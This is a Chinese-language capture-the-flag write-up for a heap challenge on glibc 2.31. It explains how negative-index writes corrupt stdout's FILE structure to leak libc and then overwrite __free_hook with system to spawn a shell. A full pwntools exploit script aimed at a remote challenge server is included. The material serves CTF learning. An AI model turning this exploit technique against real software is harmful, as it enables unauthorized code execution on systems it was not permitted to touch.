

# user

## 文件属性

|属性  |值    |
|------|------|
|Arch  |amd64 |
|RELRO |Full  |
|Canary|on    |
|NX    |on    |
|PIE   |on    |
|strip |no    |
|libc  |2.31-0ubuntu9.18|

## 解题思路

看到`delete`和`edit`对输入的索引检查不严格，允许我们输入负数以向前访问。
由于RELRO只读，因此我们有效的数据只有`stdin, stdout, stderr`和`__dso_handle`。
使用`edit`，我们能够写`*stdout`的前0x40字节，通过修改`_flag`和`_IO_write_base`，
就可以让`puts`先将base-ptr范围之间的内容输出出来，借此泄露libc。

> [!TIP]
> 网上一般说修改`_flag`为`0xfbad1800`，但是这样的话就不是无缓冲了，会影响脚本后续判断，
> 因此根据原flag，我们可以设置为`0xfbad1887`，这样既能利用成功，又能保持原有的输出特性。

不难注意到`__dso_handle`上放着`__dso_handle`自己，因此我们edit它时，
等于原地修改那一片的内存。由于是libc2.31，可以直接写入一个`__free_hook`的地址，
再edit它并写入`system`，就利用完毕了。最后分配一个堆块写入`/bin/sh`后，
释放一下就能拿shell。

## EXPLOIT

```python
from pwn import *
context.terminal = ['tmux', 'splitw', '-h']
context.arch = 'amd64'
def GOLD_TEXT(x): return f'\x1b[33m{x}\x1b[0m'
EXE = './user'

def payload(lo: int):
    global t
    if lo:
        t = process(EXE)
        if lo & 2:
            gdb.attach(t)
    else:
        t = remote('pss.idss-cn.com', 22122)
    elf = ELF(EXE)
    libc = elf.libc

    def add(buf: bytes):
        t.sendlineafter(b'Unregister', b'1')
        t.sendafter(b'username:\n', buf)

    def delete(idx: int):
        t.sendlineafter(b'Unregister', b'2')
        t.sendlineafter(b'index', str(idx).encode())

    def edit(idx: int, buf: bytes):
        t.sendlineafter(b'Unregister', b'4')
        t.sendlineafter(b'index', str(idx).encode())
        t.sendafter(b'username:\n', buf)

    edit(-8, flat(0xfbad1887, 0, 0, 0, p8(0x8))) # set stdout->write_base to stdout->chain
    libc_base = t.u64() - libc.symbols['_IO_2_1_stdin_']
    success(GOLD_TEXT(f'Leak libc_base: {libc_base:#x}'))
    libc.address = libc_base

    add(b'/bin/sh')
    edit(-11, p64(libc.symbols['__free_hook'])) # write free_hook on __dso_handle
    edit(-11, p64(libc.symbols['system']))      # write system on free_hook
    delete(0) # trigger free hook

    t.clean()
    t.interactive()
    t.close()
```


